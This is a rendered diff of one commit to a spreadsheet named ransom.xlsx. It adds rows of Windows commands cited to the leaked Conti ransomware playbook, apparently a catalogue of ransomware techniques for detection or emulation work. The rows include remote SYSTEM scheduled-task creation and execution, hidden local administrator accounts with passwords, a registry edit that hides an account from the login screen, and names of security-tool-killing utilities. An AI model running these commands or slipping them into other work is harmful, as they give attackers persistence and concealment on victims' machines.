

Before and after one commit to harveywargo2/h2w-delta, an Excel workbook: delta2/lib_e/ransom.xlsx, sheet sheet1, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; table styles not drawn; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update ransom.xlsx

```diff
--- a/delta2/lib_e/ransom.xlsx (sheet sheet1)
+++ b/delta2/lib_e/ransom.xlsx (sheet sheet1)
+row 473: conti-eid0001 |  |  |  | shell SCHTASKS /s ip\hostname /RU "SYSTEM" /create /tn "WindowsSensor15" /tr "cmd.exe /c C:\ProgramData\P32.exe" /sc ONCE /sd 01/01/1970 /st 00:00 |  | { "url": "https://github.com/DISREL/Conti-Leaked-Playbook-TTPs/blob/main/Conti-Leaked-Playbook-TTPs.pdf", "tags": ["conti"]}
+row 474: conti-eid0002 |  |  |  | shell SCHTASKS /s ip\hostname /run /TN "WindowsSensor15" |  | { "url": "https://github.com/DISREL/Conti-Leaked-Playbook-TTPs/blob/main/Conti-Leaked-Playbook-TTPs.pdf", "tags": ["conti"]}
+row 475: conti-eid0003 |  |  |  | shell schtasks /S ip\hostname /TN "WindowsSensor15" /DELETE /F |  | { "url": "https://github.com/DISREL/Conti-Leaked-Playbook-TTPs/blob/main/Conti-Leaked-Playbook-TTPs.pdf", "tags": ["conti"]}
+row 476: conti-eid0004 |  |  |  | net user Admin Password1 /add |  | { "url": "https://github.com/DISREL/Conti-Leaked-Playbook-TTPs/blob/main/Conti-Leaked-Playbook-TTPs.pdf", "tags": ["conti"]}
+row 477: conti-eid0005 |  |  |  | net localgroup Administrators Admin /add |  | { "url": "https://github.com/DISREL/Conti-Leaked-Playbook-TTPs/blob/main/Conti-Leaked-Playbook-TTPs.pdf", "tags": ["conti"]}
+row 478: conti-eid0006 |  |  |  | net user oldadministrator "qc69t4B#Z0kE3" /add |  | { "url": "https://github.com/DISREL/Conti-Leaked-Playbook-TTPs/blob/main/Conti-Leaked-Playbook-TTPs.pdf", "tags": ["conti"]}
+row 479: conti-eid0007 |  |  |  | net localgroup Administrators oldadministrator /ADD |  | { "url": "https://github.com/DISREL/Conti-Leaked-Playbook-TTPs/blob/main/Conti-Leaked-Playbook-TTPs.pdf", "tags": ["conti"]}
+row 480: conti-eid0008 |  |  |  | reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v oldadministrator /t REG_DWORD /d 0 /f |  | { "url": "https://github.com/DISREL/Conti-Leaked-Playbook-TTPs/blob/main/Conti-Leaked-Playbook-TTPs.pdf", "tags": ["conti"]}
+row 481: conti-eid0009 |  |  |  | gmer.exe |  | { "url": "https://github.com/DISREL/Conti-Leaked-Playbook-TTPs/blob/main/Conti-Leaked-Playbook-TTPs.pdf", "tags": ["conti"]}
+row 482: conti-eid0010 |  |  |  | pchunter |  | { "url": "https://github.com/DISREL/Conti-Leaked-Playbook-TTPs/blob/main/Conti-Leaked-Playbook-TTPs.pdf", "tags": ["conti"]}
```
Also changed, not shown: 131 added rows elsewhere in this sheet.
